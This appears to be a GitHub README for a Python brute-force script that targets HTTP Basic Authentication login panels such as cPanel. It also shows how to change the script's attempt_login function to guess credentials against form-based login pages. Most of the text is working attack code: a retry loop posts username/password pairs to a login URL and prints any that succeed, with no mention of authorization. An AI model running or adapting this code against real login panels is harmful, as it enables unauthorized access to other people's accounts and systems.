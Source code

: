 ### About 


This brute forcing script is made to target HTTP Basic Authentication login panels, not just cpanel.
The script can only work with panels that respond with a 401 Unauthorized error when incorrect credentials are supplied.
However, you can modify the script to work with other types of login panels, depending on the authentication mechanism they use. 

### Example:

* Form-Based Authentication

```
data = urllib.parse.urlencode({'username': u, 'password': p}).encode()
req = urllib.request.Request(login_url, data=data)
```
* Modification:

```
def attempt_login(self, username, password):
    attempt = 0
    success = False
    login_url = f"http://{self.server}/login"

    while attempt < RETRY_LIMIT and not success and not success_event.is_set():
        try:
            data = urllib.parse.urlencode({'username': username, 'password': password}).encode()
            req = urllib.request.Request(login_url, data=data)

            with urllib.request.urlopen(req) as response:
                if response.getcode() == 200:
                    print(f"SUCCESS: Username: {username} Password: {password}")
                    success_event.set()
                    success = True

        except urllib.error.HTTPError as e:
            print(f"Failed Login - User: {username} Password: {password}")
        except Exception as e:
            print(f"Connection error for {username}:{password} - Retry {attempt + 1}")
        attempt += 1
```

* You can see the help menu by running:

```
python bruteforce.py
```
